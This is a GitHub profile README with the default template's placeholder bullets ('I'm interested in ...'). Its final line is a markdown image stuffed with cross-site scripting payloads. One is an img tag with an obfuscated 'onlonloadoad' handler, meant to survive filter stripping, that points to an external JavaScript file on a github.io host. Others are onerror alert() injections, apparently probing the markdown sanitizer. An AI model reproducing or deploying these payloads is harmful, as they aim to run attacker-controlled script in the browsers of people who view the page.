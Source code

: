- 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![<img src="" onlonloadoad="https://r89shi.github.io/teste.js" />](https://avatars.githubusercontent.com/u/92805783?s=40&v=|onerror='alert(\"\)<img src="" onerror="alert()">')
